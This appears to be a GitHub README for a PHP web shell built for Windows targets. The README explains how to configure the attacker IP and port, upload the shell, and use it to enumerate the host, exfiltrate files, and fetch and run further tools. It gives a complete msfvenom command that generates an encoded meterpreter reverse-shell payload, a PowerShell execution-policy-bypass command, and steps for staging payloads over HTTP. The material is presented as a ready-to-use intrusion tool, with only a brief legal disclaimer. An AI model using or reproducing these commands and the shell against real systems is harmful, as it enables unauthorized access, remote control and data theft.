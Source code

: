 <h1> The Not-So Simple PHP Command Shell</h1>
<img src="/img/nsscmdshell.png" />
<p>Automates many on target functions. Designed for windows targets. It isn't pretty, but it works as intended. I have included an assortment of common windows enumeration and escalation tools.  To generate your own msfvenom payload:<br> 
venom.exe : (sudo) msfvenom -p windows/meterpreter/reverse_tcp LHOST=(ATTACKBOXIP) LPORT=(ATTACBOXPORT) -e x64/shikata_ga_nai -f exe -o venom.exe <br>
</p>

<img src="https://github.com/kaotickj/The-Not-So-Simple-PHP-Command-Shell/blob/main/img/nsscmdshelluse.gif" />
<h2>Automates or simplifies many on target enumeration functions. Including:</h2>
<ul>
<li>Simple system commands</li>
<li>File upload/download options</li>
<li>simple user manipulations (on compatible targets with sufficient privileges)</li>
<li>One click user info/ user permissions info</li>
<li>One click systeminfo</li>
<li>One Click processes list</li>
<li>And many more...</li>
</ul>

<h2>How to use it</h2>
<p>First, change the variables, "$attackip" and "$attackport" to the appropriate values for YOUR attack machine:</p>
<code>$attackip = "10.0.2.6";</code><br>
<code>$attackport = "8000";</code>

<p>Next, upload the nsscmdshell.php file to the target. Please note that gaining access to the target is beyond the scope of this writing and your responsibility to establish in a manner consistent with established law.  This tool is intended to be used for on target enumeration to gather and exfiltrate information and then to upload and execute tools such as netcat or msvenom payload for further access to the target. </p>

<p>Once the nsscmdshell is uploaded, typing valid commands into the command input or click the various cmd buttons will display the results in a windows command prompt style below the nsscmdshell interface.</p>
<img src="https://github.com/kaotickj/The-Not-So-Simple-PHP-Command-Shell/blob/main/img/nsscmdshell-output.png" />
<p>The upload and download options are self explanatory, but just to avoid any confusion: <br><br>
If using the select field, choose your file and click "upload". files linked in the select field options need to be present at the web root&sup;1 at the ip address and port in lines 10 and 11 of nsscmdshell.php. <br>
If using the open file dialog option, only files present at the ip address and port specified can be uploaded. <br>
For the download option, simply enter the filename to be downloaded from the working directory of the target machine. Please note that files which can be managed by your browser will be opened in your browser - i.e., entering a text or html file to be downloaded will instead open the file in the web browser.<br>   
Example usage: run jaws-enum.ps1 - output to jaws.txt <code>powershell.exe -ExecutionPolicy Bypass -File .\jaws-enum.ps1 -OutputFilename jaws.txt</code>, then download the output file to your attack machine for later close examination.<br><br>

<img src="https://github.com/kaotickj/The-Not-So-Simple-PHP-Command-Shell/blob/main/img/nsscmdshell-jaws.png" />
</p>
<p>The quick command buttons each have a title attribute with a brief description of the function - hover over the button to see the description.<br>

<img src="https://github.com/kaotickj/The-Not-So-Simple-PHP-Command-Shell/blob/main/img/nsscmdshell-title-desc.png" /><br>

It goes without saying that the effectiveness of the various functions depends on the target os's support of the functions and the current user's permissions. This was designed for and tested on Windows XP - Windows 8.1 with very limited testing on Win10.</p> 
&sub;1 I generally cd into my "windowstools" folder and start a simple http server <code>python3 -m http.server 8000</code>.<br>

<img src="https://github.com/kaotickj/The-Not-So-Simple-PHP-Command-Shell/blob/main/img/nsscmdshell-listening.png" />

*** Got "Warning: file_get_contents(http://XX.XX.XX.XX:XXXX/filename.ext):failed to open stream: No connetion could be made...." error? 
 Two possible causes:</p>
 <ol>
 <li> You didn't set the variables, <code>$attackip</code> and <code>$attackport</code> to your machine. Fix: ifconfig your ip, and set in nsscmdshell.php lines 10 and 11.</li> 
 <li> The files are not available on the defined server or port, or there is no server running on the defined port. Fix: <code>python3 -m http.server XXXX</code> in a directory containing the files you're attempting to upload.</li>
 </ol>